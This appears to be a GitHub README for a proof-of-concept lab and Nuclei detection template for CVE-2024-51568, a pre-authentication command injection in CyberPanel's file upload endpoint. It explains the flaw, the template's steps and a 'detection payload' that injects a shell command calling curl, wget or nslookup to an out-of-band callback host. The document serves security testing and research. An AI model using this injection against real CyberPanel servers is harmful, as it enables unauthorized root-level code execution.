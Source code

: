 # CVE-2024-51568 - CyberPanel Command Injection PoC

A proof-of-concept environment and Nuclei template for testing CVE-2024-51568, a critical pre-authentication command injection vulnerability in CyberPanel.

## Vulnerability Details

- CVE: CVE-2024-51568
- Severity: Critical (CVSS 9.8)
- Type: Pre-authentication Command Injection
- Endpoint: `/filemanager/upload`
- Parameter: `completePath`
- Impact: Remote Code Execution with root privileges

## Quick Start

### 1. Start Vulnerable Environment

```bash
cd docker/
docker-compose up -d --build
```

### 2. Verify CyberPanel is Running

```bash
curl -I http://localhost:8090
```

### 3. Test the Vulnerability

```bash
nuclei -t template/cve-2024-51568.yaml -u http://localhost:8090
```

Sample Output:
```
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.4.10

                projectdiscovery.io

[INF] nuclei-templates are not installed, installing...
[INF] Successfully installed nuclei-templates at /root/nuclei-templates
[WRN] Loading 1 unsigned templates for scan. Use with caution.
[INF] Current nuclei version: v3.4.10 (latest)
[INF] Current nuclei-templates version: v10.2.8 (latest)
[INF] New templates added in latest release: 114
[INF] Templates loaded for current scan: 1
[INF] Targets loaded for current scan: 1
[INF] Using Interactsh Server: oast.online
[CVE-2024-51568] [http] [critical] http://localhost:8090/filemanager/upload
[INF] Scan completed in 5.706766772s. 1 matches found.
```

## How It Works

### The Vulnerability

CyberPanel v2.3.4 contains a command injection flaw in the file upload functionality:

1. Endpoint: `POST /filemanager/upload`
2. Parameter: `completePath` in multipart form data
3. Injection: Commands are executed via `ProcessUtilities.outputExecutioner()`
4. Bypass: No authentication required due to middleware bypass

### Nuclei template:

1. Extracts CSRF token from initial GET request
2. Sends malicious file upload with injected command in `completePath`
3. Uses Interactsh for out-of-band detection (HTTP/DNS callbacks)
4. Detects successful execution when the server contacts the Interactsh URL

### Detection Payload

```bash
/dev/null; curl {{interactsh-url}} || wget {{interactsh-url}} || nslookup {{interactsh-url}}; #
```

This payload ensures reliable detection across different system configurations.


## Configuration

### CyberPanel Access

- URL: http://localhost:8090
- Admin: admin
- Password: 1234567

## References

- [Original Research](https://dreyand.rs/code/review/2024/10/27/what-are-my-options-cyberpanel-v236-pre-auth-rce)
- [Metasploit Module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/webapp/cyberpanel_preauth_rce_multi_cve.rb)
- [CVE Details](https://nvd.nist.gov/vuln/detail/CVE-2024-51568)

## Security Notice

This environment contains intentional vulnerabilities for security research and education:

- DO NOT deploy in production
- DO NOT expose to public networks  
- DO NOT use on systems you don't own
- DO use for authorized security testing only

## Disclaimer

This proof-of-concept is provided for educational and authorized security testing purposes only. Users are responsible for complying with applicable laws and obtaining proper authorization before testing.
